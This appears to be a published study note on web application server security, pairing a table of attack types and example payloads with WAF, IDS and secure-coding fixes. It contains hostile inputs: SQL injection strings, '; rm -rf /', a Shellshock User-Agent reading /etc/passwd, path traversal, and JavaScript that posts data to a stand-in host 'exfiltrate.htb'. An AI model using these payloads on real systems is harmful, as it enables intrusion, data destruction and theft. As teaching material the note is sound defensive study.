

---
{"dg-publish":true,"permalink":"/0-learn-like-a-systems-engineer/web/4-web-application-server-security-defending-against-attacks/","noteIcon":"","created":"2025-04-15T14:11:19.588-04:00"}
---


## **1. Introduction to Web Application Servers**

Web application servers **process user requests**, execute business logic, and interact with databases and other backend components. However, they are also **prime targets for attackers** due to their exposure to the internet. Securing them requires a combination of **WAF (Web Application Firewall), RASP (Runtime Application Self-Protection), Secure Coding Practices, and IDS/IPS (Intrusion Detection/Prevention Systems).**



---

## **2. Common Web Application Server Attack Tactics**

| **Attack Type**                        | **Description**                                                                                      | **Example Exploit**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| -------------------------------------- | ---------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **SQL Injection (SQLi)**               | Injection of malicious SQL statements to **read, modify, or delete database records**.               | `' OR 1=1 --`<br>B: Boolean-based blind<br>	AND 1=1<br>E: Error-based<br>	AND GTID_SUBSET(@@version,0)<br>U: Union query-based<br>	UNION ALL SELECT 1,@@version,3<br>S: Stacked queries<br>	; DROP TABLE users<br>T: Time-based blind<br>	AND 1=IF(2>1,SLEEP(5),0)<br>Q: Inline queries<br>	SELECT (SELECT @@version) from<br><br>[[../../../unpublished/OSWE/References/MYSQL/SQLI Flow\|SQLI Flow]]<br>[[../../../unpublished/Web Pentesting Checklist/2.1 SQLMAP\|2.1 SQLMAP]]<br><br><br>regex <br>[[../../../unpublished/OSWE/References/Regex/regex for sqli\|regex for sqli]]<br><br><br>Setting up Debugger/logger for <br>[[../../../unpublished/OSWE/References/Debugger and Logger/Debugger-Maria\|Debugger-Maria]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - mysql\|Logger - mysql]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - SQLite\|Logger - SQLite]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - MongoDB\|Logger - MongoDB]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - PostgreSQL\|Logger - PostgreSQL]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - MS SQL Server\|Logger - MS SQL Server]]<br>[[../../../unpublished/OSWE/References/Debugger and Logger/Logger - Oracle Database\|Logger - Oracle Database]]<br><br>                                    |
| **Cross-Site Scripting (XSS)**         | Injecting malicious JavaScript into webpages **to steal user sessions or perform actions**.          | `<script>alert(1)</script>`<br><br>Three Types<br>Reflective<br>Stored<br>DOM-based<br><br><br>[[../2.2 Attack Web/Javascript/Javascript, Nodejs, Express, Webpack\|Javascript, Nodejs, Express, Webpack]]<br>Common Dangerous functions<br>\| `eval()`\|<br>\| `setTimeout()`\|<br>\| `setInterval()`\|<br>\| `Function()`\|<br>\| `document.write()`\|<br>\| `innerHTML`\|<br>\| `outerHTML`\|<br>\| `location.href`\|<br>\| `location.replace \|<br>\| `localStorage`\|<br>\| `sessionStorage`\|<br>\| `XMLHttpRequest`\|<br>\| `fetch()`\|<br><br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Server-Side Request Forgery (SSRF)** | Abuse server functionality to perform internal or external resource requests on behalf of the server | `curl -X GET "http://localhost/admin"`<br><br>[[../2.2 Attack Web/SSRF/SSRF Basic\|SSRF Basic]]<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Cross-Site Request Forgery (CSRF)**  | Tricking users into executing **unauthorized actions on a website** where they are authenticated.    | ``<br><br>[[../../../unpublished/OSWE/OSWE_Round2/Answers/Session Riding CSRF/CSRF\|CSRF]]<br>[[../2.2 Attack Web/Javascript/Session Riding CSRF/javascript payload session riding - CSRF\|javascript payload session riding - CSRF]]<br><br><br><br>Use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) to send HTTP requests from javascript code.<br><br>XMLHTTPREQUEST<br>```js<br>var xhr = new XMLHttpRequest();<br>xhr.open('POST', 'http://exfiltrate.htb/', false);<br>xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');<br>xhr.send('param1=hello&param2=world');<br>```<br>Fetch API<br><br>```js<br>const response = await fetch('http://exfiltrate.htb/', {<br>    method: "POST",<br>    headers: {<br>      'Content-Type': 'application/x-www-form-urlencoded'<br>    },<br>    body: 'param1=hello&param2=world',<br>  });<br>```<br><br><br>Tools: <br>https://csrf-poc-generator.vercel.app/<br>Burp Pro - CSRF Generator |
| **Command Injection**                  | Injecting OS commands into **vulnerable input fields** to gain system access.                        | `; rm -rf /`<br>[[../../../unpublished/Web Pentesting Checklist/3. Command Injection\|3. Command Injection]]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| **Remote Code Execution (RCE)**        | Gaining full control of a system by executing arbitrary code on the server.                          | `eval($_GET['cmd']);`<br><br>[[4a. RCE\|4a. RCE]]<br><br>[[../Data Wrapper/C Data Wrapper\|C Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/PHP Data Wrapper\|PHP Data Wrapper]]<br>[[../Data Wrapper/Ruby Data Wrapper\|Ruby Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Java Data Wrapper\|Java Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Bash Data Wrapper\|Bash Data Wrapper]]<br>[[../2.2 Attack Web/Data Wrapper/Javascript Data Wrapper\|Javascript Data Wrapper]]<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| **Local File Inclusion (LFI)**         | Exploiting improperly handled file paths to **read sensitive files**.                                | `../../../etc/passwd`<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Directory Traversal**                | Navigating beyond the intended directory structure to **access restricted files**.                   | `GET /../../etc/passwd`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Log Forging**                        | Manipulating application logs to **hide attack traces or execute log-based exploits**.               | `"; DROP TABLE users; --`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **User-Agent Spoofing**                | Changing the `User-Agent` header to **evade detection or exploit vulnerabilities**.                  | `User-Agent: () { :; }; /bin/bash -c 'cat /etc/passwd'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

---

## **3. Web Application Firewall (WAF) & Runtime Protection**

### 🔥 **WAF: Protecting Web Servers from Exploits**

A **Web Application Firewall (WAF)** inspects HTTP traffic and blocks **malicious payloads** before they reach the server.

#### **WAF Rules to Mitigate Attacks:**

|**Attack Type**|**Example WAF Rule**|
|---|---|
|**SQL Injection**|`Block ' OR 1=1 --` in URL parameters|
|**XSS**|`Block` `tags in user input`|
|**LFI**|`Block "../../../../"` in requests|
|**SSRF**|`Restrict server-side requests to internal services`|

### 🔥 **RASP: Runtime Protection**

**Runtime Application Self-Protection (RASP)** detects and prevents attacks **within** the application by monitoring real-time execution.

#### **RASP Capabilities:**

- Blocks **unauthorized command execution**
- Prevents **memory corruption exploits**
- Monitors **unexpected API calls**

---

## **4. Intrusion Detection & Prevention (IDS/IPS)**

|**Tool**|**Purpose**|
|---|---|
|**Snort**|Detects **suspicious traffic patterns**|
|**Suricata**|High-performance **network IDS/IPS**|
|**OSSEC**|Host-based IDS **for web servers**|
|**ModSecurity**|Open-source WAF for **Apache, Nginx, and IIS**|

---

## **5. Secure Coding Practices**

|**Security Practice**|**Implementation**|
|---|---|
|**Input Validation**|Validate **user input** to prevent **SQLi, XSS, and LFI**.|
|**Least Privilege**|Restrict **database and OS permissions** to minimize attack impact.|
|**Escaping Output**|Prevent XSS by **escaping HTML, JavaScript, and CSS**.|
|**Secure Headers**|Use **Content Security Policy (CSP), X-Frame-Options, X-XSS-Protection** headers.|
|**Use Parameterized Queries**|Prevent SQLi with **prepared statements** (e.g., `mysqli_prepare()`).|
|**Implement CSRF Protection**|Use **CSRF tokens** in forms and API requests.|

---

## **6. Attack Detection & Response**

|**Attack Type**|**Detection Method**|**Mitigation Strategy**|
|---|---|---|
|**SQL Injection**|Monitor database logs for **unexpected queries**.|Use **WAF & input validation**.|
|**XSS**|Check for **unexpected JavaScript execution** in logs.|Enable **CSP & sanitize input**.|
|**SSRF**|Detect **internal network requests from web app**.|Restrict server requests with **allowlists**.|
|**CSRF**|Monitor **unauthorized form submissions**.|Use **CSRF tokens** & SameSite cookies.|
|**Command Injection**|Look for **unexpected shell commands in logs**.|Implement **input sanitization** & use **RASP**.|

---

## **7. Web Application Server Security Tools**

|**Tool**|**Purpose**|
|---|---|
|**ModSecurity**|Open-source WAF for **Apache, Nginx, IIS**|
|**Burp Suite**|Detects **SQLi, XSS, SSRF vulnerabilities**|
|**OWASP ZAP**|Automated **web vulnerability scanner**|
|**SQLmap**|Automated **SQL Injection tool**|
|**Nikto**|Scans **web servers for vulnerabilities**|
|**Metasploit**|Exploit known vulnerabilities **for testing**|
|**Fail2Ban**|Bans **IP addresses** after multiple failed logins|

---

## **8. Web Application Attack Scenarios**

### **Scenario 1: SQL Injection Exploiting Poor Input Validation**

**Vulnerable Query:**

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

**Exploit:**

```sql
' OR '1'='1' --
```

**Fix:**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$user, $pass]);
```

---

### **Scenario 2: XSS via Unsanitized User Input**

**Vulnerable Code:**

```html
<input type="text" name="comment" value="<?php echo $_GET['comment']; ?>">
```

**Exploit:**

```html
<script>alert('XSS!')</script>
```

**Fix:**

```php
echo htmlspecialchars($_GET['comment'], ENT_QUOTES, 'UTF-8');
```

---

### **Scenario 3: SSRF Exploiting Open URL Requests**

**Vulnerable Code:**

```php
$url = $_GET['url'];
$response = file_get_contents($url);
```

**Exploit:**

```bash
http://localhost/admin
```

**Fix:**

```php
$allowed_domains = ['example.com'];
if (!in_array(parse_url($url, PHP_URL_HOST), $allowed_domains)) {
    die('Invalid request');
}
```

---

## **9. Final Thoughts & Best Practices**

🔹 **Web application servers are a prime attack surface, requiring multiple layers of security.**  
🔹 **Combining WAF, RASP, secure coding, and IDS/IPS helps prevent common web attacks.**  
🔹 **Proactive monitoring, secure configurations, and strong authentication policies are key to defense.**

Would you like a **hands-on demo** for any of these attacks? 🚀